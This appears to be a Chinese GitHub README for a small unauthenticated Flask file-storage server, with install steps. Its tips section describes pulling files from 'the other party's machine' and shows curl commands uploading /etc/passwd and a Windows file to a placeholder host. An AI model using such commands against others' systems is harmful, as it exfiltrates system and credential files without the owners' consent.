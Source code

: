 # webstorage
#### 基于python3 开发的flask的简单文件存储
    用于远程下载、异地备份、私人网盘等

### 使用方法
    1. git clone https://github.com/mycve/webstorage.git
    2. cd webstorage
    3. pip3 install -r requirements.txt
    4. python3 app.py
    5. 访问 https://ip:8899 (默认端口8899)

#### 本着轻量级原则，未加密码等功能，私人用吧...

#### Tips：推荐部署到外企一家`python runtime`（:- ♥♥♥ because：forever free
#### [点击直达](https://www.pythonanywhere.com/)

### Demo(是我已经部署好的，地址我就不放了)
![image](https://raw.githubusercontent.com/mycve/webstorage/main/static/1.png)


### 小技巧（拖对方机器文件、快捷上传等）：
    curl https://xxxxx.com/api?action=upload -F "file=@/etc/passwd"
    curl https://xxxxx.com/api?action=upload -F "file=@c://1.txt"

### 执行完了，回到网页刷新网盘 （:- over